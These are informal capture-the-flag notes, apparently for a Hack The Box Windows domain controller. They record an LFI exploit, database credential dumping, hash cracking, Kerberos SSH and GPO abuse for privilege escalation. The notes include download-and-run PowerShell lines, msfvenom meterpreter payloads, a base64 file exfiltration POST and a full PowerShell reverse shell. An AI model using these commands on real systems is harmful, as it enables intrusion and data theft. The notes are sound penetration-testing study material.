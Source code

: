 ___


-> this is a domain controller and I got no creds

theres an apache server running on windows on port 80 

theres ssh for windows running on port 22



*local file inclusion with ?q= this is present*
## CVE-2023-34598?




*I think this it*
https://sploitus.com/exploit?id=B9C9A654-821F-5450-BD25-49C6C09C3224




*that worked got a shell as frizz*

whoami
frizz\w.webservice
PS C:\xampp\htdocs\Gibbon-LMS> ls



*local DB creds*

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';


Connect-MariaDB -User "MrGibbonsDB" -Password "MisterGibbs!Parrot!?1" -Database "gibbon" 


ServerAdmin f.frizzle@frizz.htb



frizz\w.webservice



$connection = Connect‑MariaDB `
  -User $User -Password $Password `
  -Server $Server -Port $Port `
  -Database $Database



$connection = Connect‑MariaDB -User "MrGibbonsDB" -Password "MisterGibbs!Parrot!?1" -Server 127.0.0.1 -Port 3306 -Database "gibbon"


Invoke‑MariaDB -Connection $connection -Query 'SELECT * FROM gibbonPerson'




*running scripts in memory*

IEX(New-Object Net.WebClient).downloadString('http://10.10.20.30:8000/myscript.ps1')   `

IEX(IWR http://10.10.20.30:8000/myscript.ps1)   



*upgrading to meterpreter*

$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.20.30 LPORT=9090 -f exe -o evil.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x64 from the payload No encoder specified, outputting raw payload Payload size: 510 bytes Final size of exe file: 7168 bytes Saved as: evil.exe   `


msf6 > use exploit/multi/handler msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp msf6 > set LHOST 10.10.20.30 msf6 > set LPORT 9090 msf6 > exploit`


PS > Invoke-WebRequest -URI http://10.10.10.10:8000/myPayload.exe -OutFile .\myPayload.exe   



-u "MrGibbonsDB" -p "MisterGibbs!Parrot!?1" -P 3306 -D "gibbon"


*this is how it needs to run aparently*

```bash
$db   = 'gibbon'
$user = 'MrGibbonsDB'
$pass = 'MisterGibbs!Parrot!?1'

$mysql  = '.\bin\mysql.exe'
$params = '-u', $user, '-p', $pass, '-D', $db

& $mysql @params -e 'SHOW DATABASES'
& $mysql @params -e '...'
```


& $mysql @params -e 'SELECT * FROM gibbonPerson'




.\mysql.exe -u MrGibbonsDB -p"Mis*********" -e "USE gibbon; SELECT * FROM gibbonperson;" -E




*idk why the command just hangs*
./bin/mysql.exe -u MrGibbonsDB -p 'MisterGibbs!Parrot!?1' -e "USE gibbon;SELECT * FROM gibbonPerson;" -E




& cmd /c '.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;" -E'





*this worked on CMD not powershell!!!!!!!!!!*

.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;" -E





*dumped this user*

gibbonPersonID: 0000000001
                    title: Ms.
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters: 
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: NULL
        lastFailTimestamp: NULL
                failCount: 0







*hashcat command*
hashcat -m 1420 f.frizzle.hash --wordlist ~/Documents/wordlists/rockyou.txt

why tf did it work with 1420 ?? should it not b 1410??? i put the salt at the end wtf




*hashcrack did it so much easier*

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23




so the format is always HASH:SALT in the file

the modes are how the hash gets computed!!!!!!!!!




so either sha256(salt + password) or sha256(password + salt) 



you need to figure out when the hash is actually computed with one gets put first depends on the application -> research the app that created the hash




f.frizzle
Jenni_Luvs_Magic23



to log in  as f.frizzle need to go through kerberos there is ssh running on the machine 

/etc/krb5.conf needs to be edited to point to the KDC of the domain so ssh can use kerberos

ssh user@pass -K 

also request the TGT with one of the tools





Look for deleted fie in recycle bin  
  
$shell = New-Object -ComObject Shell.Application  
$recycleBin = $shell.Namespace(0xA)  
$recycleBin.items() | Select-Object Name, Path



Restore deleted file  
  
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)  
$items = $recycleBin.Items()  
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}  
$documentsPath = [Environment]::GetFolderPath("Desktop")  
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)  
$documents.MoveHere($item)





*more than 1 one to skin a cat*
`   PS > $b64 = [Convert]::ToBase64String((Get-Content -Path .\path\to\someFile.exe -Encoding Byte)) PS > Invoke-WebRequest -URI http://10.10.10.10:9090 -Method POST -Body $b64   `




password in that zip file?

!suBcig@MehTed!R



New-GPO -Name pain | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes




### Advanced usage

[](https://github.com/Hackndo/pyGPOAbuse#advanced-usage)

Reverse shell example

```shell
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```





.\RunasCs.exe 'M.schoolbus' '!suBcig@MehTed!R' powershell.exe --remote-impersonation --logon-type 3 -r 10.10.14.138:5555


kerbrute password spray feature


this was a brainfuck idk why


